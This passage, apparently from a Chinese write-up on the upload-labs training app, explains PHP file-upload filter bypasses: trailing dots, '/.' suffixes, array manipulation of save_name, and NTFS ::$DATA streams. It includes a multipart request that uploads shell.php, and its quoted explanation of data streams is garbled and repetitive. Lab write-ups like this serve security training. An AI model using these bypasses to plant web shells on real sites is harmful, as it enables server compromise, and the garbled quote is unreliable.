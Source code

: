 添加点即可绕过后端的php检测，而且可以正常解析。参考upload-labs Pass-7。

`shell.php.`

另外，遇到move_uploaded_file()函数时，其有这么一个特性，会忽略掉文件末尾的 /.
所以直接上传php文件，然后抓包，添加/. 就可以绕过黑名单。参考upload-labs Pass-19。

`shell.php/.`

**【upload-labs Pass-20】**：

查看该题源码可知，若提交的保存的文件名save_name不是数组，那就以点来分割得到数组$file。而下面的EXP则是直接提交数组。

该页面会将数组的最后一个元素看作后缀名进行白名单校验，通过校验后将第一个元素和点以及最后一个元素拼接得到文件名。但是在取最后一个元素时存在漏洞：`$file_name = reset($file) . '.' . $file[count($file) - 1];`。可以看如下POST请求体，save_name[0]为shell.php/，save_name[2]为jpg，这样校验后缀名时取的是index为2的jpg。但是在拼接文件名时，由于未给save_name[1]赋值，所以`count($file)`的结果是2而非3，所以`$file[count($file) - 1]`的值为空，而非jpg。最后得到的文件名就为`shell.php/.`，又由于move_uploaded_file()函数会忽略这个/.，所以该文件会被保存为shell.php。

```
------WebKitFormBoundary0lAKZaGSiktCjkBi
Content-Disposition: form-data; name="upload_file"; filename="shell.php"
Content-Type: image/png

<?php
phpinfo();
?>
------WebKitFormBoundary0lAKZaGSiktCjkBi
Content-Disposition: form-data; name="save_name[0]"

shell.php/
------WebKitFormBoundary0lAKZaGSiktCjkBi
Content-Disposition: form-data; name="save_name[2]"

jpg
------WebKitFormBoundary0lAKZaGSiktCjkBi
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundary0lAKZaGSiktCjkBi--
```



### 8. 黑名单过滤，没有过滤::$DATA

参考upload-labs Pass-8。

> 在 Windows 操作系统中，::$DATA 是一种用于隐藏文件的特殊附加数据流（Alternate Data Stream）。它是一种扩展文件属性，可以将额外的数据附加到一个文件中，而不会影响文件的主要内容。
> 附加数据流基于文件名和冒号之间的特殊语法，例如：file.txt::D A T A 。附加数据流可以储存任意类型的数据，例如文本、二进制文件或其他文件。这使得 : : DATA。附加数据流可以储存任意类型的数据，例如文本、二进制文件或其他文件。 这使得 ::DATA。附加数据流可以储存任意类型的数据，例如文本、二进制文件或其他文件。这使得::DATA 可以被用于隐藏文件内容、存储元数据或其他需要与主文件相关但不希望直接显示给用户的信息。

`shell.php::$DATA`

### 9. 黑名单过滤，改变符号或者多次换行
